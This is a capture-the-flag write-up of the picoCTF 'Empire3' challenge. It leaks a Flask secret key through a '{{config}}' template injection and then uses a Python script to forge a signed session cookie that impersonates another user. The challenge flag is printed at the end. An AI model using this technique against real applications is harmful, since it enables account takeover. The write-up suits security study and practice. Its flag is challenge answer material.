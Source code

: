 # Empire3 - Points: 500

1. First, lets go through the website : https://2019shell1.picoctf.com/problem/47271/
2. Then, we register and login. In fact, it's as same as "Empire 1" and "Empire 2", so lets first try flask and we get some information by add a todo "{{config}}".
3. After we get out "secret key", we can use it to encode flask session. Then, we look up our cookie and see there is a object named session. As I said, the secret key is used for encode session, so we can first decode session to get some information. https://www.kirsle.net/wizards/flask-session.cgi
4. Here is the result of my session : 
    ```
    {
        "_fresh": true,
        "_id": "27ee817950ea264218c5b21f8c8c9b8f8cd1e22c67c683bdb775bf2020e08aa6fbce18e4cd4bb92b799f5616659238509b76aaabd28bdbe9334555bafcaf6d0c",
        "csrf_token": "4cece37cba71cdb3c5808aec118467c68ae0d74c",
        "user_id": "3"
    }
    ```
    Then, I guess that maybe the flag is in another user's list, so I change the "user_id" into "1" and encode it by the code here : https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe I change some code from it : 
    ```
    from flask.sessions import SecureCookieSessionInterface
    from itsdangerous import URLSafeTimedSerializer
    from requests import *

    class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
        def get_signing_serializer(self, secret_key):
            if not secret_key:
                return None
            signer_kwargs = dict(
                key_derivation=self.key_derivation,
                digest_method=self.digest_method
            )
            return URLSafeTimedSerializer(secret_key, salt=self.salt,
                                          serializer=self.serializer,
                                          signer_kwargs=signer_kwargs)

    def encodeFlaskCookie(secret_key, cookieDict):
        sscsi = SimpleSecureCookieSessionInterface()
        signingSerializer = sscsi.get_signing_serializer(secret_key)
        return signingSerializer.dumps(cookieDict)

    if __name__=='__main__':
        sk = '11e524344575850af46c19681f9baa0d'
        sessionDict={
            "_fresh": True,
            "_id": "27ee817950ea264218c5b21f8c8c9b8f8cd1e22c67c683bdb775bf2020e08aa6fbce18e4cd4bb92b799f5616659238509b76aaabd28bdbe9334555bafcaf6d0c",
            "csrf_token": "4cece37cba71cdb3c5808aec118467c68ae0d74c",
            "user_id": "1"
        }
        cookie = encodeFlaskCookie(sk, sessionDict)
        print(cookie)
    ```
    After changing the cookie, I get nothing. Then, I change the user_id into "2" and get the flag.
5. Here is the flag : picoCTF{cookies_are_a_sometimes_food_404e643b}
